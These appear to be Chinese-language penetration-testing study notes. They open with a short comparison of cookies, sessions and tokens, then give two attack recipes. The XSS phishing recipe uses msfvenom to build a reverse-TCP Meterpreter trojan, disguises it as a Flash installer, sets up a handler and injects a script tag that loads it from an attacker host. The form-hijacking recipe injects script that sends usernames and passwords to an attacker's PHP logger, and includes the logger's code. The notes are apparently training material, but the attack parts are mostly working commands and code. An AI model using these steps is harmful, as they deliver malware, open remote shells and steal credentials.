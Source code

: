 ~~~shell
2、大小不同：
cookie不超过3K
session存储在服务器上。
3、安全性不同：
cookie不是很安全
# Token（令牌）：
在身份认证中，令牌是一种表示用户身份和权限的数据。它通常是一个加密的字符串，由服务器颁发给客户端，并在每次请求时随请求一起发送。令牌可以包含用户的身份信息、访问权限和其他相关数据。常见的身份认证令牌包括JSON Web Token（JWT）和OAuth 2.0令牌。令牌通常存储在请求的头部（Authorization Header）或请求参数中。
# 区别
在身份认证方面，token和session都可以用于验证用户身份和授权访问。与此不同，cookie主要用于在客户端存储数据，通常用于维护用户状态和跟踪用户会话。
使用token进行身份认证的方法通常被称为"无状态身份认证"，因为服务器不需要在自己的存储中保持会话数据，而使用session和cookie进行身份认证的方法则需要服务器在会话存储中维护相关的状态信息。
~~~

### XSS钓鱼

~~~shell
# XSS钓鱼
1、生成一个木马(msf生成后门)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.168.20.17 LPORT=7777 -f exe > flash.exe
2、下载好正版安装包，并和木马打包压缩成exe文件（记得改变高级解压缩）
	解压到的路径：c:/windows/temp
	解压后运行的软件：c:/windows/temp/flash.exe
	c:/windows/temp/flashcenter_pp_ax_install_cn.exe
3、老师给的网站放在kali里，并开启python服务（记得修改里面的配置：IP地址）
	flash.js
	html
4、msf使用
	msfconsole
	use exploit/multi/handler 
	set payload windows/meterpreter/reverse_tcp
	set lhost 木马ip
	set lpot 木马端口
	options 查看
	run
5、写入脚本
<script src="http://172.168.20.219:8080/flash.js"></script>
~~~



### 表单劫持

~~~shell
1、抓包找路径
2、修改提交的文件，添加js语句
$xx='<script src=http://172.168.20.70/pass.php?na='.$id.'&pa='.$pass.'></script>';
echo $xx;
3、WWW下写pass.php文档（本地）
<?php
$name = $_REQUEST['na'];
$pass = $_REQUEST['pa'];
$a = "账号：".$name."密码：".$pass."||";
file_put_contents('pass.txt', $a, FILE_APPEND |LOCK_EX); 
?>
4、访问
# 挂马
# 防范：抓包（history）
~~~
